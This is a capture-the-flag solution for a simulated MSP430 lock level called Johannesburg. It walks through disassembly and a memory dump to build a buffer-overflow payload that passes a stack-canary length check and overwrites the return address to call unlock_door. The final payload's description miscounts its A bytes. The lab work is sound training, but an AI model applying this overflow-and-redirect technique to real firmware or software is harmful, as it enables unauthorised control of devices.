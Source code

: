 # Johannesburg

## solution

The only function that is different between the previous challenges is the login.


```
452c <login>
452c:  3150 eeff      add	#0xffee, sp
4530:  f140 4200 1100 mov.b	#0x42, 0x11(sp)
4536:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
453a:  b012 f845      call	#0x45f8 <puts>
453e:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4542:  b012 f845      call	#0x45f8 <puts>
4546:  3e40 3f00      mov	#0x3f, r14
454a:  3f40 0024      mov	#0x2400, r15
454e:  b012 e845      call	#0x45e8 <getsn>
4552:  3e40 0024      mov	#0x2400, r14
4556:  0f41           mov	sp, r15
4558:  b012 2446      call	#0x4624 <strcpy>
455c:  0f41           mov	sp, r15
455e:  b012 5244      call	#0x4452 <test_password_valid>
4562:  0f93           tst	r15
4564:  0524           jz	#0x4570 <login+0x44>
4566:  b012 4644      call	#0x4446 <unlock_door>
456a:  3f40 d144      mov	#0x44d1 "Access granted.", r15
456e:  023c           jmp	#0x4574 <login+0x48>
4570:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4574:  b012 f845      call	#0x45f8 <puts>
4578:  f190 4200 1100 cmp.b	#0x42, 0x11(sp)
457e:  0624           jeq	#0x458c <login+0x60>
4580:  3f40 ff44      mov	#0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call	#0x45f8 <puts>
4588:  3040 3c44      br	#0x443c <__stop_progExec__>
458c:  3150 1200      add	#0x12, sp
4590:  3041           ret
```


The differences are at the bottom after address `0x4574`. At address `0x4578` there is a check to see whether the value 0x42 is at whatever address the stack pointer is at +0x11. If true then it will jump past the invalid password length message and hit address `0x458c`. At that point it will add 0x12 to the stack pointer. Lets work on passing the check first.

Set a breakpoint at `0x4578` and hit c to enter the payload when prompted. If we enter in AAAAAAAAAAAAAAAAAA (18 A's) and hit c again, we can see the sp at `0x43ec`, the beginning of the payload. 0x11 after sp is 17 bytes, the end of the 18 character payload. This is where the 0x42 needs to be. We can modify the payload then, so the final character is a B (0x42). AAAAAAAAAAAAAAAAAB.




```
43d0:   0000 0000 0000 0000 0000 a845 0100 a845   ...........E...E
43e0:   0300 1c46 0000 0a00 0000 7845 4141 4141   ...F......xEAAAA
43f0:   4141 4141 4141 4141 4141 4141 4141 0044   AAAAAAAAAAAAAA.D
```



After entering in the new payload if we step, we can see the value in the sr register is 0x003. This indicates the check was successful. The door has yet to be unlocked, however.

If we step again we hit address `0x458c`. This moves the sp to `0x43fe`. Given we can control that address with our input, if we add the address of the unlock door function to the end of our payload it will make the sp jump to there and unlock the door. The address of the unlock door function is `0x4446`. Appending this to the end of the payload (taking into consideration endianness), our payload in hex is 4141414141414141414141414141414142424644 which is 20 A's, 2 B's (we only need one for the bypass), and the address 4644.

